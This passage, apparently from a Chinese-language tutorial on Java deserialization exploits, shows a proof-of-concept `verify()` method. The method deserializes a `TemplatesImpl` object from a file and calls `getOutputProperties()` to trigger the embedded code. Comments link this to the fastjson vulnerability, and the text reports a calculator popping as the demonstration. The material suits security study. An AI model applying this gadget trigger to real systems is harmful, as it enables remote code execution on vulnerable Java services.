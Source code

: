 ````java

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        TemplatesImpl templates = (TemplatesImpl) ois.readObject();
        // // 最终代码其实会在调用getOutputProperties方法后被执行，fastJson的漏洞触发点其实也是这个，fastjson会调用目标Class中的get方法，最终导致代码执行
        templates.getOutputProperties();
    }
}

````

运行一下，效果是这样的，弹个计算器

![image-20241212232154282](./main.assets/image-20241212232154282.png)

你会发现网上很多人还有这么写的：

### POC测试代码 - 2

JavaClassByteUtil的代码可以看这里：[JavaClassByteUtil](../Java类转字节码工具/JavaClassByteUtil.java)
